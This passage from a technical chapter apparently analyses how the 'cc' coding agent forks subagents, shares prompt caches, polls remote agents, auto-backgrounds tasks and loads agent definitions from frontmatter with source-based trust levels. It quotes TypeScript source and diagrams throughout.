      ...toolResultBlocks,
      {
        type: 'text' as const,
        text: buildChildMessage(directive),
      },
    ],
  })

  return [fullAssistantMessage, toolResultMessage]
}
```

The critical insight is that all fork children must produce byte-identical API request prefixes. The cloned assistant message and the placeholder tool_results are identical across all children. Only the final text block (the child directive) differs per child. This means N fork children share the same prompt cache entry for the shared prefix, with only the last few hundred tokens differing per child.

When the parent's assistant message has no tool_use blocks (e.g., a pure text response), `buildForkedMessages` falls back to a simple user message containing only the directive. This path does not benefit from prompt cache sharing because there is no shared prefix to cache. The fallback is logged as an error because it indicates an unexpected call pattern.

The `FORK_PLACEHOLDER_RESULT` constant enforces identical placeholder text across all children:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L93
const FORK_PLACEHOLDER_RESULT = 'Fork started — processing in background'
```

If any child produces different placeholder text, the prompt cache is invalidated for all children. This is a subtle bug that can be introduced by modifying the constant or by building tool_results differently per child.

The fork child receives a strict boilerplate that prevents it from spawning further subagents. The boilerplate is wrapped in an XML tag that the `isInForkChild()` guard scans for:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L171-L198
export function buildChildMessage(directive: string): string {
  return `<${FORK_BOILERPLATE_TAG}>
STOP. READ THIS FIRST.

You are a forked worker process. You are NOT the main agent.

RULES (non-negotiable):
1. Your system prompt says "default to forking." IGNORE IT \u2014 that's for the parent. You ARE the fork. Do NOT spawn sub-agents; execute directly.
2. Do NOT converse, ask questions, or suggest next steps
3. Do NOT editorialize or add meta-commentary
4. USE your tools directly: Bash, Read, Write, etc.
5. If you modify files, commit your changes before reporting. Include the commit hash in your report.
6. Do NOT emit text between tool calls. Use tools silently, then report once at the end.
7. Stay strictly within your directive's scope. If you discover related systems outside your scope, mention them in one sentence at most \u2014 other workers cover those areas.
8. Keep your report under 500 words unless the directive specifies otherwise. Be factual and concise.
9. Your response MUST begin with "Scope:". No preamble, no thinking-out-loud.
10. REPORT structured facts, then stop

Output format (plain text labels, not markdown headers):
  Scope: <echo back your assigned scope in one sentence>
  Result: <the answer or key findings, limited to the scope above>
  Key files: <relevant file paths \u2014 include for research tasks>
  Files changed: <list with commit hash \u2014 include only if you modified files>
  Issues: <list \u2014 include only if there are issues to flag>
</${FORK_BOILERPLATE_TAG}>

${FORK_DIRECTIVE_PREFIX}${directive}`
}
```

The output format (Scope, Result, Key files, Files changed, Issues) is designed for machine-parseable results. The parent can extract structured data from the child's report without parsing free-form prose. This is important for aggregation when multiple fork children report back to the parent.

```mermaid
sequenceDiagram
    participant Parent as Parent Agent
    participant ForkSub as forkSubagent.ts
    participant Child as Forked Child Process

    Parent->>ForkSub: Omit subagent_type (fork gate on)
    ForkSub->>ForkSub: buildForkedMessages(directive)
    ForkSub->>ForkSub: Clone assistant message
    ForkSub->>ForkSub: Insert placeholder tool_results
    ForkSub->>ForkSub: Append child directive
    ForkSub->>Child: Bun.fork() with forked messages
    Child->>Child: Execute directive
    Child->>Child: Report: Scope/Result/Files
    Child->>Parent: Return fork result
```

### Fork feature gate

The fork path is gated by the `isForkSubagentEnabled()` function, which checks three conditions: the `FORK_SUBAGENT` feature flag is on, the session is not in coordinator mode, and the session is interactive (not non-interactive):

```typescript
// src/tools/AgentTool/forkSubagent.ts:L32-L39
export function isForkSubagentEnabled(): boolean {
  if (feature('FORK_SUBAGENT')) {
    if (isCoordinatorMode()) return false
    if (getIsNonInteractiveSession()) return false
    return true
  }
  return false
}
```

The coordinator mode exclusion is necessary because the coordinator already owns the orchestration role and has its own delegation model. Allowing fork subagents in coordinator mode would create conflicting delegation paths. The non-interactive session exclusion prevents fork children from spawning in headless API sessions where there is no terminal to bubble permission prompts to.

### Worktree notice for isolated fork children

Fork children running in isolated worktrees inherit context that references the parent's working directory. The `buildWorktreeNotice()` function injects a warning to translate paths, but there is no automatic path remapping:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L205-L210
export function buildWorktreeNotice(
  parentCwd: string,
  worktreeCwd: string,
): string {
  return `You've inherited the conversation context above from a parent agent working in ${parentCwd}. You are operating in an isolated git worktree at ${worktreeCwd} — same repository, same relative file structure, separate working copy. Paths in the inherited context refer to the parent's working directory; translate them to your worktree root. Re-read files before editing if the parent may have modified them since they appear in the context. Your changes stay in this worktree and will not affect the parent's files.`
}
```

This notice is a hint to the model, not an enforcement mechanism. The model must interpret the notice and adjust its file operations accordingly. If the model ignores the notice and uses parent paths, its writes will go to the parent's working directory instead of the worktree, violating the isolation guarantee. This is a known limitation that could be addressed with automatic path translation in a future version.

A further complication arises when the parent modifies files after the worktree is created. The worktree is a git-level snapshot, so any parent modifications after the fork point are not visible to the child. The notice instructs the child to re-read files before editing if the parent may have modified them, but this is advisory. In practice, the race window is small because fork children are typically spawned for parallel research or exploration tasks that do not overlap with the parent's file modifications.

### Remote mode execution

Remote agents are launched in CCR environments via the `teleportToRemote()` function. The local process registers a `RemoteAgentTaskState` and polls for events. The remote path is the most complex execution mode because it involves network communication, session management, and error recovery across machine boundaries:

```mermaid
sequenceDiagram
    participant Parent as Parent Agent
    participant Remote as CCR Cloud Environment
    participant Poller as Local Poller

    Parent->>Remote: teleportToRemote(prompt)
    Remote->>Remote: Create cloud session
    Remote-->>Parent: sessionUrl + taskId
    Parent->>Poller: Register RemoteAgentTaskState
    
    loop Poll cycle (1s interval)
        Poller->>Remote: pollRemoteSessionEvents(sessionId, lastEventId)
        Remote-->>Poller: newEvents + sessionStatus + lastEventId
        Poller->>Poller: Append events to task output
        Poller->>Poller: Check completion conditions
    end
    
    Remote->>Poller: Task completed/failed
    Poller->>Parent: <task-notification>
```

Remote agent eligibility requires several preconditions, each with a specific error message. The `checkRemoteAgentEligibility()` function validates authentication, git repo state, GitHub remote configuration, and the Claude GitHub app installation:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L124-L141
export async function checkRemoteAgentEligibility({
  skipBundle = false
}: {
  skipBundle?: boolean;
} = {}): Promise<RemoteAgentPreconditionResult> {
  const errors = await checkBackgroundRemoteSessionEligibility({
    skipBundle
  });
  if (errors.length > 0) {
    return {
      eligible: false,
      errors
    };
  }
  return {
    eligible: true
  };
}
```

The `skipBundle` parameter controls whether the eligibility check skips the bundle validation step, which is useful when the calling context has already verified bundle compatibility. The function delegates to `checkBackgroundRemoteSessionEligibility`, which returns an array of `BackgroundRemoteSessionPrecondition` errors. Each failing check returns a specific, actionable error message. When any check fails, the dispatch falls back to local execution rather than failing the entire task.

The `formatPreconditionError` function converts the raw error list into a user-friendly message that explains what is missing and how to fix it. For example, if the GitHub app is not installed, the message includes a link to install it. If the git repo has no GitHub remote, the message suggests adding one with `git remote add origin`. This user-facing error design is critical for remote agent adoption: users who encounter a wall of technical errors are likely to abandon the feature entirely.

### Remote agent polling loop

The local poller for remote agents runs in a 1-second interval loop managed by `startRemoteSessionPolling`. On each tick, it calls `pollRemoteSessionEvents` with the last event ID to fetch only the delta, appends new events to the accumulated log, and writes text output to the task's disk file. The poller must handle several completion signals:

1. **Session archived**: The CCR session has completed. The poller marks the task as completed and enqueues a notification.

2. **Completion checker**: For special remote task types (autofix-pr, ultraplan), a registered `RemoteTaskCompletionChecker` is invoked on each tick. If it returns a non-null string, the task is completed with that string as the notification text.

3. **Result event**: For non-long-running tasks, a `result` event in the accumulated log signals completion. Long-running monitors and ultraplan tasks skip this check because they emit periodic results.

4. **Remote review completion**: For bughunter-mode reviews, completion is signaled by the `<remote-review>` tag in hook progress stdout. For prompt-mode reviews, stable idle (5 consecutive polls with no log growth) plus the presence of assistant events signals completion. A 30-minute timeout from `pollStartedAt` provides a safety cap.

A critical subtlety is the stable-idle debounce. Remote sessions briefly flip to `idle` between every tool turn, so a single idle observation is meaningless. The poller requires `STABLE_IDLE_POLLS = 5` consecutive idle polls with no log growth before treating idle as a completion signal. Without this debounce, the poller would prematurely terminate remote agents that are between turns.

The poller also handles race conditions with `TaskStopTool`. If a task is killed while `pollRemoteSessionEvents` is in-flight, the poller's state update guard detects the terminal status and bails without overwriting the killed state or sending a duplicate notification.

### Progress tracking for local agents

Local agents track tool use count, token consumption, and recent activities for progress reporting. The `createProgressTracker` function initializes a tracker, and `updateProgressFromMessage` updates it as the agent processes messages. The `getProgressUpdate` function extracts the current progress as an `AgentProgress` object for display and adaptive decisions.

The progress tracker provides three key metrics: how many tools the agent has used (activity level), how many tokens it has consumed (cost), and what it has been doing recently (direction). These metrics enable adaptive decisions like auto-backgrounding after a timeout or alerting the user when an agent's token consumption exceeds a threshold.

The `lastReportedToolCount` and `lastReportedTokenCount` fields in `LocalAgentTaskState` prevent redundant progress updates. The `createActivityDescriptionResolver` function generates a short human-readable description of the agent's recent activities (e.g., "Reading 3 files, editing src/main.ts"), which is displayed in the task list UI and in `<task-notification>` messages. This description is computed lazily from the `ProgressTracker.recentActivities` array to avoid the overhead of string formatting on every message.

### Auto-background transition

Sync agents can be automatically promoted to async after 120 seconds. This transition is gated by the `getAutoBackgroundMs()` function, which returns `120_000` when either the `CLAUDE_AUTO_BACKGROUND_TASKS` environment variable is set or the `tengu_auto_background_agents` GrowthBook feature flag is enabled:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L72-L77
function getAutoBackgroundMs(): number {
  if (isEnvTruthy(process.env.CLAUDE_AUTO_BACKGROUND_TASKS) || getFeatureValue_CACHED_MAY_BE_STALE('tengu_auto_background_agents', false)) {
    return 120_000;
  }
  return 0;
}
```

When auto-backgrounding is active, `AgentTool.call()` sets a timer via `setTimeout` at the start of the agent's execution. If the agent completes before the timer fires, the timer is cancelled. If the timer fires first, the agent's execution is transitioned to the background task system:

1. A `LocalAgentTaskState` is created for the running agent with `isBackgrounded: true`
2. The task is registered in the local task system via `registerTask`
3. The agent's query loop continues running, but progress is now tracked through the task system
4. `AgentTool.call()` returns `{ status: 'async_launched', agentId }` to the parent instead of blocking
5. When the agent completes, a `<task-notification>` is enqueued to the parent's message queue

The `runAsyncAgentLifecycle` function drives the background agent from spawn to terminal notification. It iterates over the agent's `query()` generator (provided as a `makeStream` callback), appending each message to the task's messages array for the UI, updating the progress tracker, and emitting progress events. On completion, it calls `finalizeAgentTool` to extract the result, `completeAsyncAgent` to transition the task state, and `enqueueAgentNotification` to deliver the result to the parent.

This transition requires careful state management: the agent's accumulated messages, usage metrics, and tool state must be transferred from the sync execution path to the async task system without loss. The `preserveToolUseResults` flag ensures that the agent's transcript is viewable after the transition.

### Forwarding API metrics from subagents

The `runAgent` function forwards subagent API request starts to the parent's metrics display so that TTFT (Time To First Token) and OTPS (Output Tokens Per Second) update during subagent execution. This is critical for the user experience: without forwarding, the parent's metrics display would show zero activity while a subagent is running, leading the user to believe the system is stuck:

```typescript
// src/tools/AgentTool/runAgent.ts:L761-L768
if (
  message.type === 'stream_event' &&
  message.event.type === 'message_start' &&
  message.ttftMs != null
) {
  toolUseContext.pushApiMetricsEntry?.(message.ttftMs)
  continue
}
```

The `pushApiMetricsEntry` callback is threaded from the parent's `ToolUseContext` and is optional (some contexts do not track metrics). The `continue` statement ensures that `stream_event` messages are not recorded in the transcript, since they are ephemeral metrics events rather than conversation turns.

## Edge cases and failure modes

- **Fork child context rot**: Fork children inherit the parent's full conversation context, which can be large. If the inherited context is near the token limit, the child has very little budget for its own work. HER Section 6.5 (Context Anxiety) notes that models prematurely wrap up near perceived context limits. The `maxTurns: 200` on FORK_AGENT provides a safety cap, but does not address the context budget problem. A parent with 180K tokens of context would leave a fork child very little room for its directive and tool results.

- **Fork placeholder cache sharing**: All fork children must use identical placeholder text for tool_results. If any child produces different placeholder text, the prompt cache is invalidated for all children. The constant `FORK_PLACEHOLDER_RESULT` enforces this across all children. A developer modifying this constant without understanding the cache-sharing contract would silently degrade performance for all fork children.

- **Remote session disconnection**: If the CCR session drops during a remote agent's execution, the local poller continues polling until a timeout. The `pollStartedAt` timestamp ensures that restored sessions do not immediately time out based on the original spawn time. However, if the remote session is permanently lost (e.g., the CCR environment is terminated), the poller will continue polling until the timeout expires, wasting resources.

- **Local agent message queuing**: When a SendMessage targets a running local agent, the message is queued in `pendingMessages` and drained at the next tool-round boundary. If the agent finishes before the message is drained, it is lost. This is a known limitation of the tool-round-boundary communication model: there is no interrupt mechanism to deliver a message mid-turn.

- **Worktree path translation**: Fork children running in isolated worktrees inherit context that references the parent's working directory. The `buildWorktreeNotice()` function injects a warning to translate paths, but there is no automatic path remapping. The model must interpret the notice and adjust its file operations. If the model ignores the notice and uses parent paths, its writes will go to the parent's working directory instead of the worktree.

- **Abort propagation**: Local agents use `AbortController` for cancellation. When a parent is killed, child abort controllers are signaled. For remote agents, the cancellation path is different: the local poller stops and the remote session may continue running orphaned. There is no guaranteed cancellation of a remote agent; the CCR session may persist after the local parent has exited.

- **Fork with no tool_use blocks**: If the parent's assistant message has no tool_use blocks (e.g., a pure text response), `buildForkedMessages` falls back to a simple user message with the directive. This path does not benefit from prompt cache sharing because there is no shared prefix to cache. The fallback is logged as an error because it indicates an unexpected call pattern.

- **MaxOutputTokens cache invalidation**: Setting `maxOutputTokens` on a `ForkedAgentParams` changes the thinking budget, which is part of the API cache key. If the fork child uses cache-safe params but also sets `maxOutputTokens`, the cache will be invalidated. This is a subtle footgun that is documented in the type definition but easy to miss in practice.

## Where cc diverges from the published pattern

**HER Section 9.1 describes three tiers** (in-process, local orchestrator, cloud async) as a progressive hierarchy. cc implements all three, but the boundaries are fluid: sync agents can be auto-backgrounded after 120 seconds, effectively promoting them from in-process to "local async." The tier is not a fixed property of the agent type but a runtime decision. A single agent invocation can start as sync, transition to background after 120 seconds, and deliver its result asynchronously. This fluidity is not described in HER, which treats the tiers as distinct architectural choices.

**HER Section 6.5 (Context Anxiety)** recommends context resets with structured handoffs rather than pushing to the limit. cc's fork mode pushes the full parent context into the child, which can exacerbate context anxiety if the parent is near its limit. There is no automatic compaction or summarization of the inherited context before forking. The `omitClaudeMd` and `systemContext` optimizations (dropping gitStatus) mitigate this partially, but the core problem remains: a bloated parent produces a bloated child.

**The fork mode's "bubble" permission model** (where permission prompts surface to the parent terminal) is not described in HER. This is a practical necessity for CLI-based agents: the child process has no terminal of its own, so permission requests must be routed through the parent. HER's description of subagents assumes each agent has its own interface surface. The bubble model also introduces a latency penalty: each permission prompt requires an IPC round-trip between the child and parent, which can slow down the child's execution if it needs many permissions.

**HER Pattern 8 (Fork-Join Parallelism)** describes a formal barrier sync where the parent waits for all children to complete before proceeding. cc does not implement a formal join. Results are delivered via `<task-notification>` messages that arrive asynchronously. The parent processes each notification independently and can start new work before all children have reported. This is a more flexible model but requires the parent to manage partial results and handle the case where some children fail while others succeed.

## Developer takeaways for building a long-running agent

1. **Use fork mode for parallel, cache-friendly work.** The fork path's placeholder tool_results and CacheSafeParams ensure that multiple fork children share the parent's prompt cache, reducing cost by 50-90% for the shared prefix. The key constraint is that all children must produce byte-identical prefixes, which requires careful management of placeholder text and system prompt threading.

2. **Avoid inheriting bloated contexts.** Before forking, consider whether the child actually needs the full parent conversation. For research tasks, a fresh context with a concise directive may be more effective and cheaper. The `omitClaudeMd` flag demonstrates this principle: read-only agents do not need the full CLAUDE.md hierarchy.

3. **Design for graceful degradation when remote is unavailable.** Remote agent launch has many preconditions. The agent should be able to fall back to local execution when remote is unavailable, rather than failing the entire task. cc's dispatch logic tries remote first and falls back to sync if preconditions are not met.

4. **Track progress with structured metrics.** The `ProgressTracker` pattern (tool use count, token count, recent activities) provides machine-readable progress for adaptive decisions (e.g., auto-backgrounding after a timeout). Avoid relying on parsing the model's text output for progress.

5. **Separate task lifecycle from process lifecycle.** cc's `LocalAgentTaskState` and `RemoteAgentTaskState` decouple the task's logical state from the underlying process's state. This enables features like agent resume after eviction, progress restoration on session resume, and orphan cleanup for remote sessions.
# Agent Definitions: Loading, Frontmatter, and Built-Ins

## Overview

cc's agent system is built on a discovery-and-loading pipeline that assembles agent definitions from multiple sources: built-in agents hardcoded in the binary, user-defined agents in `~/.claude/agents/`, project-level agents in `.claude/agents/`, managed policy agents, and plugin agents. Each agent is defined by a Markdown file with YAML frontmatter that specifies its capabilities, constraints, and behavior. This chapter examines how cc discovers, parses, validates, and activates these agent definitions.

The agent definition pipeline connects to HER Section 7.4 (Sub-Agents as a Configuration Surface), which describes subagents as discrete tasks in isolated context windows with configurable model, tools, and permissions. It also connects to Pattern 2 (Scoped Context Assembly) through the way agent frontmatter assembles the subagent's tool pool, MCP servers, and permission mode.

The trust model for agent definitions is layered by source. Built-in agents ship with the binary and carry full trust: they can declare any frontmatter field including `permissionMode`, `hooks`, and `mcpServers`. Custom agents (from user, project, or policy settings) also carry full trust because a human explicitly wrote or approved the frontmatter. Plugin agents, however, are third-party marketplace code and operate under a restricted trust boundary: `permissionMode`, `hooks`, and `mcpServers` are intentionally not parsed from plugin agent frontmatter. This distinction is critical for the security posture of the agent system and is examined in detail later in this chapter.

## Data structures and contracts

### AgentDefinition union type

The core type is a discriminated union of three variants: built-in, custom, and plugin. The discrimination is based on the `source` field, which determines how the agent was loaded and what trust level it has:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L105-L165
// Base type with common fields for all agents
export type BaseAgentDefinition = {
  agentType: string
  whenToUse: string
  tools?: string[]
  disallowedTools?: string[]
  skills?: string[] // Skill names to preload (parsed from comma-separated frontmatter)
  mcpServers?: AgentMcpServerSpec[] // MCP servers specific to this agent
  hooks?: HooksSettings // Session-scoped hooks registered when agent starts
  color?: AgentColorName
  model?: string
  effort?: EffortValue
  permissionMode?: PermissionMode
  maxTurns?: number // Maximum number of agentic turns before stopping
  filename?: string // Original filename without .md extension (for user/project/managed agents)
  baseDir?: string
  criticalSystemReminder_EXPERIMENTAL?: string // Short message re-injected at every user turn
  requiredMcpServers?: string[] // MCP server name patterns that must be configured for agent to be available
  background?: boolean // Always run as background task when spawned
  initialPrompt?: string // Prepended to the first user turn (slash commands work)
  memory?: AgentMemoryScope // Persistent memory scope
  isolation?: 'worktree' | 'remote' // Run in an isolated git worktree, or remotely in CCR (ant-only)
  pendingSnapshotUpdate?: { snapshotTimestamp: string }
  /** Omit CLAUDE.md hierarchy from the agent's userContext. Read-only agents
   * (Explore, Plan) don't need commit/PR/lint guidelines — the main agent has
   * full CLAUDE.md and interprets their output. Saves ~5-15 Gtok/week across
   * 34M+ Explore spawns. Kill-switch: tengu_slim_subagent_claudemd. */
  omitClaudeMd?: boolean
}

// Built-in agents - dynamic prompts only, no static systemPrompt field
export type BuiltInAgentDefinition = BaseAgentDefinition & {
  source: 'built-in'
  baseDir: 'built-in'
  callback?: () => void
  getSystemPrompt: (params: {
    toolUseContext: Pick<ToolUseContext, 'options'>
  }) => string
}

// Custom agents from user/project/policy settings - prompt stored via closure
export type CustomAgentDefinition = BaseAgentDefinition & {
  getSystemPrompt: () => string
  source: SettingSource
  filename?: string
  baseDir?: string
}

// Plugin agents - similar to custom but with plugin metadata, prompt stored via closure
export type PluginAgentDefinition = BaseAgentDefinition & {
  getSystemPrompt: () => string
  source: 'plugin'
  filename?: string
  plugin: string
}

// Union type for all agent types
export type AgentDefinition =
  | BuiltInAgentDefinition
  | CustomAgentDefinition
  | PluginAgentDefinition
```

The `BaseAgentDefinition` carries 22 fields that configure every aspect of the subagent's behavior. The `tools` and `disallowedTools` fields control the subagent's tool pool by whitelisting and blacklisting tool names. The `mcpServers` field adds agent-specific MCP servers. The `hooks` field registers session-scoped hooks. The `memory` field enables persistent memory with different scopes (user, project, local). The `isolation` field requests worktree or remote isolation. The `omitClaudeMd` flag is a production optimization that drops the CLAUDE.md hierarchy for read-only agents.

The three variants differ in how they provide their system prompt. `BuiltInAgentDefinition` uses a function that receives `ToolUseContext` (allowing access to model and tool information at prompt construction time). `CustomAgentDefinition` and `PluginAgentDefinition` use simpler closures that capture the Markdown body at parse time. This difference exists because built-in agents need dynamic prompts that adapt to the current model and tool set, while custom and plugin agents use static prompts from their Markdown files.

Type guards distinguish the variants using the `source` field:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L168-L184
export function isBuiltInAgent(
  agent: AgentDefinition,
): agent is BuiltInAgentDefinition {
  return agent.source === 'built-in'
}

export function isCustomAgent(
  agent: AgentDefinition,
): agent is CustomAgentDefinition {
  return agent.source !== 'built-in' && agent.source !== 'plugin'
}

export function isPluginAgent(
  agent: AgentDefinition,
): agent is PluginAgentDefinition {
  return agent.source === 'plugin'
}
```

The `isCustomAgent` guard uses a negative check (`not built-in and not plugin`) rather than a positive check because `SettingSource` includes multiple values (`userSettings`, `projectSettings`, `policySettings`, `flagSettings`). This ensures that any new setting source is automatically classified as custom.

### AgentMcpServerSpec

Agents can reference MCP servers either by name (for existing servers) or inline (for agent-specific servers). This dual reference model allows agents to both reuse shared infrastructure and define their own isolated servers:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L56-L60
// Type for MCP server specification in agent definitions
// Can be either a reference to an existing server by name, or an inline definition as { [name]: config }
export type AgentMcpServerSpec =
  | string // Reference to existing server by name (e.g., "slack")
  | { [name: string]: McpServerConfig } // Inline definition as { name: config }
```

When a string reference is used, the agent looks up the server in the user's MCP configuration and connects to the existing shared client. When an inline definition is used, a new MCP server connection is created for the agent's lifetime and cleaned up when the agent finishes. This distinction has security implications: shared clients are trusted infrastructure, while inline definitions are agent-specific and must be cleaned up to prevent resource leaks.

The Zod schema validates both forms:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L62-L68
// Zod schema for agent MCP server specs
const AgentMcpServerSpecSchema = lazySchema(() =>
  z.union([
    z.string(), // Reference by name
    z.record(z.string(), McpServerConfigSchema()), // Inline as { name: config }
  ]),
)
```

### AgentJsonSchema

For JSON-based agent definitions (used by the SDK), a Zod schema validates the input and provides clear error messages:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L70-L99
// Zod schemas for JSON agent validation
// Note: HooksSchema is lazy so the circular chain AppState -> loadAgentsDir -> settings/types
// is broken at module load time
const AgentJsonSchema = lazySchema(() =>
  z.object({
    description: z.string().min(1, 'Description cannot be empty'),
    tools: z.array(z.string()).optional(),
    disallowedTools: z.array(z.string()).optional(),
    prompt: z.string().min(1, 'Prompt cannot be empty'),
    model: z
      .string()
      .trim()
      .min(1, 'Model cannot be empty')
      .transform(m => (m.toLowerCase() === 'inherit' ? 'inherit' : m))
      .optional(),
    effort: z.union([z.enum(EFFORT_LEVELS), z.number().int()]).optional(),
    permissionMode: z.enum(PERMISSION_MODES).optional(),
    mcpServers: z.array(AgentMcpServerSpecSchema()).optional(),
    hooks: HooksSchema().optional(),
    maxTurns: z.number().int().positive().optional(),
    skills: z.array(z.string()).optional(),
    initialPrompt: z.string().optional(),
    memory: z.enum(['user', 'project', 'local']).optional(),
    background: z.boolean().optional(),
    isolation: (process.env.USER_TYPE === 'ant'
      ? z.enum(['worktree', 'remote'])
      : z.enum(['worktree'])
    ).optional(),
  }),
)
```

Notable details: the `model` field transforms the string `'inherit'` to lowercase for case-insensitive matching. The `effort` field accepts both string levels and numeric integers. The `isolation` field conditionally includes `'remote'` based on the `USER_TYPE` environment variable, which is only available in the internal deployment.

```mermaid
classDiagram
    class BaseAgentDefinition {
        +agentType: string
        +whenToUse: string
        +tools: string[]
        +disallowedTools: string[]
        +skills: string[]
        +mcpServers: AgentMcpServerSpec[]
        +hooks: HooksSettings
        +model: string
        +effort: EffortValue
        +permissionMode: PermissionMode
        +maxTurns: number
        +requiredMcpServers: string[]
        +background: boolean
        +memory: AgentMemoryScope
        +isolation: worktree | remote
        +omitClaudeMd: boolean
    }
    class BuiltInAgentDefinition {
        +source: built-in
        +baseDir: built-in
        +callback: function
        +getSystemPrompt(params): string
    }
    class CustomAgentDefinition {
        +source: SettingSource
        +getSystemPrompt(): string
        +filename: string
        +baseDir: string
    }
    class PluginAgentDefinition {
        +source: plugin
        +plugin: string
        +getSystemPrompt(): string
        +filename: string
    }
    BaseAgentDefinition <|-- BuiltInAgentDefinition
    BaseAgentDefinition <|-- CustomAgentDefinition
    BaseAgentDefinition <|-- PluginAgentDefinition
```

### FrontmatterData

The frontmatter parser extracts typed fields from YAML headers in agent Markdown files. The `FrontmatterData` type captures all possible frontmatter fields, including both agent-specific fields and skill-specific fields that are ignored during agent loading:

```typescript
// src/utils/frontmatterParser.ts:L10-L59
export type FrontmatterData = {
  // YAML can return null for keys with no value (e.g., "key:" with nothing after)
  'allowed-tools'?: string | string[] | null
  description?: string | null
  // Memory type: 'user', 'feedback', 'project', or 'reference'
  // Only applicable to memory files; narrowed via parseMemoryType() in src/memdir/memoryTypes.ts
  type?: string | null
  'argument-hint'?: string | null
  when_to_use?: string | null
  version?: string | null
  // Only applicable to slash commands -- a string similar to a boolean env var
  // to determine whether to make them visible to the SlashCommand tool.
  'hide-from-slash-command-tool'?: string | null
  // Model alias or name (e.g., 'haiku', 'sonnet', 'opus', or specific model names)
  // Use 'inherit' for commands to use the parent model
  model?: string | null
  // Comma-separated list of skill names to preload (only applicable to agents)
  skills?: string | null
  // Whether users can invoke this skill by typing /skill-name
  // 'true' = user can type /skill-name to invoke
  // 'false' = only model can invoke via Skill tool
  // Default depends on source: commands/ defaults to true, skills/ defaults to false
  'user-invocable'?: string | null
  // Hooks to register when this skill is invoked
  // Keys are hook events (PreToolUse, PostToolUse, Stop, etc.)
  // Values are arrays of matcher configurations with hooks
  // Validated by HooksSchema in loadSkillsDir.ts
  hooks?: HooksSettings | null
  // Effort level for agents (e.g., 'low', 'medium', 'high', 'max', or an integer)
  // Controls the thinking effort used by the agent's model
  effort?: string | null
  // Execution context for skills: 'inline' (default) or 'fork' (run as sub-agent)
  // 'inline' = skill content expands into the current conversation
  // 'fork' = skill runs in a sub-agent with separate context and token budget
  context?: 'inline' | 'fork' | null
  // Agent type to use when forked (e.g., 'Bash', 'general-purpose')
  // Only applicable when context is 'fork'
  agent?: string | null
  // Glob patterns for file paths this skill applies to. Accepts either a
  // comma-separated string or a YAML list of strings.
  // When set, the skill is only activated when the model touches matching files
  // Uses the same format as CLAUDE.md paths frontmatter
  paths?: string | string[] | null
  // Shell to use for !`cmd` and ```! blocks in skill/command .md content.
  // 'bash' (default) or 'powershell'. File-scoped — applies to all !-blocks.
  // Never consults settings.defaultShell: skills are portable across platforms,
  // so the author picks the shell, not the reader. See docs/design/ps-shell-selection.md §5.3.
  shell?: string | null
  [key: string]: unknown
}
```

The index signature `[key: string]: unknown` allows the parser to preserve unknown fields without failing. This forward-compatible design means that new frontmatter fields can be added without updating the parser. Unknown fields are ignored during agent construction.

## Control flow

### Agent discovery pipeline

The `loadAgentsDir.ts` module orchestrates discovery from all sources. The `getAgentDefinitionsWithOverrides` function (memoized by `cwd`) loads agents in precedence order and applies overrides. The `getActiveAgentsFromList` function applies a precedence ordering where later sources override earlier ones with the same `agentType`:

```typescript
// src/tools/AgentTool/loadAgentsDir.ts:L193-L221
export function getActiveAgentsFromList(
  allAgents: AgentDefinition[],
): AgentDefinition[] {
  const builtInAgents = allAgents.filter(a => a.source === 'built-in')
  const pluginAgents = allAgents.filter(a => a.source === 'plugin')
  const userAgents = allAgents.filter(a => a.source === 'userSettings')
  const projectAgents = allAgents.filter(a => a.source === 'projectSettings')
  const managedAgents = allAgents.filter(a => a.source === 'policySettings')
  const flagAgents = allAgents.filter(a => a.source === 'flagSettings')

  const agentGroups = [
    builtInAgents,
    pluginAgents,
    userAgents,
    projectAgents,
    flagAgents,
    managedAgents,
  ]

  const agentMap = new Map<string, AgentDefinition>()

  for (const agents of agentGroups) {
    for (const agent of agents) {
      agentMap.set(agent.agentType, agent)
    }
  }

  return Array.from(agentMap.values())
}
```

The precedence order is: built-in < plugin < userSettings < projectSettings < flagSettings < policySettings. This means a project-level agent definition with the same `agentType` as a built-in agent will override the built-in. A managed policy agent will override everything else. This layered override model mirrors the settings cascade described in Chapter 31 and implements HER Pattern 2 (Scoped Context Assembly) for agent definitions.

```mermaid
flowchart TD
    A[Start agent discovery] --> B[Load built-in agents]
    B --> C[Load plugin agents]
    C --> D[Load user agents from ~/.claude/agents/]
    D --> E[Load project agents from .claude/agents/]
    E --> F[Load flag-based agents]
    F --> G[Load managed policy agents]
    G --> H[Apply precedence: later source overrides earlier]
    H --> I[Filter by requiredMcpServers]
    I --> J[Return activeAgents + allAgents]
```

The `getAgentDefinitionsWithOverrides` function is memoized by `cwd` to avoid redundant filesystem traversal on every tool call. The memoization is invalidated when plugin agents are cleared (via `clearPluginAgentCache`), which happens when plugins are updated or reloaded.

### Frontmatter parsing

The `parseFrontmatter` function extracts YAML from between `---` delimiters and applies a pre-processing step to quote values containing special YAML characters. This two-pass approach handles the most common failure mode: glob patterns like `**/*.{ts,tsx}` that contain characters interpreted as YAML syntax:

```typescript
// src/utils/frontmatterParser.ts:L130-L175
/**
 * Parses markdown content to extract frontmatter and content
 * @param markdown The raw markdown content
 * @returns Object containing parsed frontmatter and content without frontmatter
 */
export function parseFrontmatter(
  markdown: string,
  sourcePath?: string,
): ParsedMarkdown {
  const match = markdown.match(FRONTMATTER_REGEX)

  if (!match) {
    // No frontmatter found
    return {
      frontmatter: {},
      content: markdown,
    }
  }

  const frontmatterText = match[1] || ''
  const content = markdown.slice(match[0].length)

  let frontmatter: FrontmatterData = {}
  try {
    const parsed = parseYaml(frontmatterText) as FrontmatterData | null
    if (parsed && typeof parsed === 'object' && !Array.isArray(parsed)) {
      frontmatter = parsed
    }
  } catch {
    // YAML parsing failed - try again after quoting problematic values
    try {
      const quotedText = quoteProblematicValues(frontmatterText)
      const parsed = parseYaml(quotedText) as FrontmatterData | null
      if (parsed && typeof parsed === 'object' && !Array.isArray(parsed)) {
        frontmatter = parsed
      }
    } catch (retryError) {
      // Still failed - log for debugging so users can diagnose broken frontmatter
      const location = sourcePath ? ` in ${sourcePath}` : ''
      logForDebugging(
